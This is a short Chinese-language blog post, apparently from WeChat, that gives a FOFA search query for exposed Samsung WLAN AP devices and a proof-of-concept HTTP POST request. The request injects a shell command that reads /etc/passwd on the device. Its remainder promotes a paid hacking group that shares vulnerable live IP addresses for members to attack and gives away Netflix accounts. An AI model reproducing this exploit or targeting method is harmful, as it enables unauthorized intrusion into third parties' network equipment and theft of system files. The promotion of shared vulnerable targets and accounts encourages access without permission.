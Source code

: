 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IrVeZd3do1a9xFrakBwUqA)

fofa 语句：  

title=="Samsung WLAN AP"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5FhHiaB0KicgHGrHc9HQ12TFlIbWz2FqABicSHQzO3wPmZM1nBSCjNd0gA/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5wM4Zr30ZSFysptWTqJsJltGhcvHCnZGmUGSVlm8CN2BKlyAbzgquYw/640?wx_fmt=png)

接着我们使用 POC  

```
POST /(download)/tmp/a.txt HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5rhOSnb8AlXLPvAjEWAMYC2RejtSPtTFJUr6AIW5JibTKuH6tBToQ6jA/640?wx_fmt=png)

读取一下当前目录文件

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5LZ19I3I4rUpbLAMvdvmxBXCvhN1ekFH5Hths3ahE9mBZzB3qn22iaRQ/640?wx_fmt=png)

路由器

路由器是连接两个或多个网络的硬件设备，在网络间起网关的作用，是读取每一个数据包中的地址然后决定如何传送的专用智能性的网络设备。

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

bgbing 星球会分享存在漏洞的 ip，给星球成员测试，使我们能够在实践中获得成果  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5jQWQ2uMrYK6YZID12eafr6GpOk1rc0j1khZ5puVfsHNhcLIX0pVUTg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5ZRJ1AHc8wnZBwn0ZlzMILS0Uoe9uVyDktnYveicr0icWrYczLdGyyxtA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd54Yat52JfXOmcc033JDpJegopHIGc8lbial7BOfo7Zd2qsUibiajpkGc1Q/640?wx_fmt=png)

bgbing 星球也会不定期分享一些大家常见的，喜欢的东西，比如奈飞 netflix 账号  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5sRjdAs1pPibKGb1eRab9NhjMqomlgRBJhfqCvtmpmMaUvDLHphmicceA/640?wx_fmt=png)

bgbing 星球支持星球成员发布精华文章，并给予星球成员奖励  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd55gQwyfoP6jfgK9Q7FpxSfAhAgibvia2mOHG0cU8kHtJ45GiaQIzg1AYJA/640?wx_fmt=png)

在这里，你可以学到很多知识。在这里，你获得其他地方所获取不到的福利！因为在这里，我们在同一艘船上，只为成为一名更优秀的白帽子！  

现在加入星球将送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号，送 shodan 会员。后续我们将分享一些挖 src 方法，技巧在星球里，欢迎你的加入！  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd50gLXzqicYXsc0obViaJNtPnnRGxJb9lcmQ10ZfNLBicm2tAB9hjNPkUFQ/640?wx_fmt=png)

当然也可以通过下面方式加入  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd5CicNxbxVFNMjbB7icp6n3BYuDIWk6xcMIUj2ppNzJr1pfLRf5PjApriaw/640?wx_fmt=png)